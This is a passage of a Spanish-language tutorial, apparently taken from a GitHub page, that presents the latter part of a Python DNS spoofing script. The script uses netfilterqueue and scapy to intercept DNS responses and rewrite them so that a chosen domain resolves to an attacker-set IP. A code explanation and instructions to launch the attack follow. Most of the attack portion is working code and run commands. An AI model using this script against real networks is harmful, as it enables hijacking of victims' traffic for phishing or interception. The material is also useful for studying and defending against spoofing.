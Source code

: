```python
            answer = scapy.DNSRR(rrname=qname, rdata="1.2.3.4")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            # Eliminamos los campos de longitud y checksum para que Scapy los recalculen
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].len
            del scapy_packet[scapy.UDP].chksum

            # Configuramos el nuevo payload del paquete
            packet.set_payload(bytes(scapy_packet))

    # Aceptamos el paquete para que continúe su curso
    packet.accept()

# Vinculamos la cola 0 de Netfilter a nuestra función process_packet
queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

### Explicación del código:

- **Importaciones**: 
  - `netfilterqueue`: Para manejar las colas de paquetes en Netfilter.
  - `scapy.all`: Para manipular y analizar los paquetes interceptados.
  - `signal`: Para capturar la señal de interrupción (Ctrl+C) y salir del script de manera controlada.
  - `sys`: Para manejar la salida del script.

- **Función `def_handler`**:
  Esta función maneja la señal de interrupción (Ctrl+C) y permite salir del script de forma limpia.

- **Función `process_packet`**:
  Esta es la función clave. Convierte el paquete interceptado en un paquete Scapy para poder analizarlo y modificarlo. Si el paquete es una respuesta DNS y el dominio solicitado es "hack4.io", modifica la respuesta para redirigirla a la IP especificada ("1.2.3.4" en este caso). Luego, recalcula los valores de longitud y checksum antes de aceptar el paquete y dejar que continúe su curso.

---

### Prueba del ataque DNS Spoofing

1. **Ejecutar el script `dns_spoof.py`**:
   
   Para iniciar el ataque, ejecutamos el script desde la terminal:
   
   ```bash
   python3 dns_spoof.py
   ```

   Este script ahora estará interceptando todas las solicitudes DNS entrantes que coincidan con el dominio "hack4.io" y redirigiendo la respuesta a la IP especificada.
